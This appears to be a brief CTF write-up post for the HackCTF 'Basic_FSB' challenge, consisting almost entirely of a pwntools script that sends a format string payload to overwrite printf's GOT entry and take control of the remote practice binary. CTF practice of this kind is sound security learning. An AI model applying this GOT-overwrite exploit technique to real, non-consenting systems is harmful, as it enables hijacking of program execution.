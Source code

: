 ```yaml
---
title: "[HackCTF] Basic_FSB"
date: 2020-07-03
ctf: HackCTF
tag: [pwnable]
layout: post
---
```

{% highlight python %}
from pwn import *

context.log_level="debug"

p = remote("ctf.j0n9hyun.xyz", 3002)
printf_got=0x0804a00c

p.sendline(p32(printf_got+2)+p32(printf_got)+"%2044p%2$hn%32176p%3$hn")
p.interactive()
{% endhighlight %}
